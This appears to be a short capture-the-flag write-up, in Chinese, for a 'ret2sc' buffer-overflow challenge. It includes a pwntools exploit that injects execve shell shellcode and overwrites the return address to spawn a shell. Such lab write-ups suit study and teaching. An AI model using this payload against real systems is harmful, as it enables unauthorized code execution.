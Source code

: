 ![image](https://user-images.githubusercontent.com/91378841/146679658-522d7fe2-aceb-4569-9f05-c203d13a2160.png)   
發現到Stack, PIE, NX是關的
![image](https://user-images.githubusercontent.com/91378841/146801760-664e0b5d-78ce-4bc9-9716-a4e66fc7cac1.png)   
嘗試執行程式
NX是關閉的狀態，因此嘗試用shellcode解
![image](https://user-images.githubusercontent.com/91378841/146801879-ccfb27fc-d5b7-436d-b995-073c80c0a670.png)   
在name處塞入shellcode，之後再讓程式指回601060
撰寫exploit如下
```python
from pwn import *
context.arch="amd64"
#r=remote('120.114.62.211','2122')
r=process("./ret2sc")
#shellcode="\x50\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
shellcode="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05";
r.sendafter(':',shellcode)

#r.sendafter(":",asm(shellcraft.sh()))
shellcode_address=0x601080
r.recvuntil(':')
r.sendline(b'a'*40+p64(shellcode_address))
r.interactive()
```
